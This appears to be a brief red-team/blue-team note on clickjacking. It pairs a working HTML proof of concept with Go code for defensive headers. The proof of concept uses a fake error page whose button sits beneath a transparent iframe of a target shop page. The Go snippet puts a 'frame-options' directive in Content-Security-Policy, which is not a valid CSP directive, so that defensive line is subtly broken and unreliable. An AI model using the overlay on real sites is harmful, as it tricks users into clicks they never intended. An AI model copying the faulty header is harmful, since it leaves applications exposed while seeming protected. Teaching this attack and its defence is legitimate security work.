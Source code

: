 # Clickjacking

## Red Team

Create a button that is positioned at the same location that a target app's button would be. Then load a transparent iframe of the target application on your own page. When a visitor clicks on your button, they will also be clicking on the target application button.

```html
<!-- fake.example.com/some-special-offer -->
<html>
  <body>
    <p>Server Error. Please try again later</p>

    <!-- button should be positioned to overlap with one of the target app's buttons -->
    <button>Back to main page</button>

    <!-- iframe is an invisible overlay of the target app's shop page -->
    <iframe src="https://real.example.com/shop" frameborder="1" style="opacity: 0"></iframe>
  </body>
</html>
```

## Blue Team

Use the [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) (X-Frame-Options has wider browser support) headers to restrict framing of your web app.

```go
w.Header().Set("Content-Security-Policy", "frame-options 'deny'")
w.Header().Set("X-Content-Security-Policy", "frame-options 'deny'")
w.Header().Set("X-Frame-Options", "deny")
```
